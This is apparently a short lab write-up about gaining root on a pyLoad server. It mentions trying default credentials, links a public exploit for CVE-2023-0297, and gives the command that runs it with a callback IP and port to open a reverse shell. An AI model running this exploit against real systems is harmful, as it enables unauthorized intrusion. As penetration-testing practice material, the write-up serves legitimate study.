



We have a website running pyload:

Now trying default credentials:


Now we found an exploit:
https://github.com/JacobEbben/CVE-2023-0297/blob/main/exploit.py

Now running it:
```
python3 exploit.py -t http://192.168.173.26:9666 -I 192.168.45.244 -P 22
```

We got a shell as root.
